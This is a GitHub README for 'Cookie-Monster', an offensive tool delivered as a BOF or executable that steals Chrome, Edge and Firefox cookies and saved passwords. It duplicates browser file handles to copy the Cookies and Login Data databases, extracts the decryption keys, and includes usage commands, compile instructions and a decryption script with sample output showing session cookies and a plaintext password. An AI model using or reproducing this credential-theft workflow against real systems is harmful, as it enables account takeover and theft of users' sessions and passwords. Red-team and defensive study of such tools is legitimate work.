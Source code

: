 # Cookie-Monster
Steal browser cookies for edge, chrome and firefox through a BOF or exe! 
Cookie-Monster will extract the WebKit master key, locate a browser process with a handle to the Cookies and Login Data files, copy the handle(s) and then filelessly download the target.
Once the Cookies/Login Data file(s) are downloaded, the python decryption script can help extract those secrets! Firefox module will parse the profiles.ini and locate where the logins.json and key4.db files are located and download them. A seperate github repo is referenced for offline decryption.  

## BOF Usage
```
Usage: cookie-monster [ --chrome || --edge || --firefox || --chromeCookiePID <pid> || --chromeLoginDataPID <PID> || --edgeCookiePID <pid> || --edgeLoginDataPID <pid>] 
cookie-monster Example: 
   cookie-monster --chrome 
   cookie-monster --edge 
   cookie-moster --firefox 
   cookie-monster --chromeCookiePID 1337
   cookie-monster --chromeLoginDataPID 1337
   cookie-monster --edgeCookiePID 4444
   cookie-monster --edgeLoginDataPID 4444
cookie-monster Options: 
    --chrome, looks at all running processes and handles, if one matches chrome.exe it copies the handle to Cookies/Login Data and then copies the file to the CWD 
    --edge, looks at all running processes and handles, if one matches msedge.exe it copies the handle to Cookies/Login Data and then copies the file to the CWD 
    --firefox, looks for profiles.ini and locates the key4.db and logins.json file 
    --chromeCookiePID, if chrome PID is provided look for the specified process with a handle to cookies is known, specifiy the pid to duplicate its handle and file
    --chromeLoginDataPID, if chrome PID is provided look for the specified process with a handle to Login Data is known, specifiy the pid to duplicate its handle and file  
    --edgeCookiePID, if edge PID is provided look for the specified process with a handle to cookies is known, specifiy the pid to duplicate its handle and file
    --edgeLoginDataPID, if edge PID is provided look for the specified process with a handle to Login Data is known, specifiy the pid to duplicate its handle and file  
```

## EXE usage
```
Cookie Monster Example:
  cookie-monster.exe --all 
Cookie Monster Options:
  -h, --help                     Show this help message and exit
  --all                          Run chrome, edge, and firefox methods
  --edge                         Extract edge keys and download Cookies/Login Data file to PWD
  --chrome                       Extract chrome keys and download Cookies/Login Data file to PWD
  --firefox                      Locate firefox key and Cookies, does not make a copy of either file
```
## Decryption Steps
Install requirements
```
pip3 install -r requirements.txt
```
Decrypt Chrome/Edge Cookies File
```
python .\decrypt.py "\xec\xfc...." --cookies ChromeCookie.db

Results Example:
-----------------------------------
Host: .github.com
Path: /
Name: dotcom_user
Cookie: KingOfTheNOPs
Expires: Oct 28 2024 21:25:22

Host: github.com
Path: /
Name: user_session
Cookie: x123.....
Expires: Nov 11 2023 21:25:22
```

Decrypt Chome/Edge Passwords File
```
python .\decrypt.py "\xec\xfc...." --passwords ChromePasswords.db

Results Example:
-----------------------------------
URL: https://test.com/
Username: tester
Password: McTesty
```
Decrypt Firefox Cookies and Stored Credentials: <br>
https://github.com/lclevy/firepwd

## Installation
Ensure Mingw-w64 and make is installed on the linux prior to compiling.
```
make
```

to compile exe on windows
```
gcc .\cookie-monster.c -o cookie-monster.exe -lshlwapi -lcrypt32 -lntdll
```

### TO-DO
- update decrypt.py to support firefox based on [firepwd](https://github.com/lclevy/firepwd) and add bruteforce module based on [DonPAPI](https://github.com/login-securite/DonPAPI)

## References
This project could not have been done without the help of Mr-Un1k0d3r and his amazing seasonal videos!
Highly recommend checking out his lessons!!! <br>
Cookie Webkit Master Key Extractor:
https://github.com/Mr-Un1k0d3r/Cookie-Graber-BOF <br>
Fileless download:
https://github.com/fortra/nanodump <br>
Decrypt Cookies and Login Data:
https://github.com/login-securite/DonPAPI
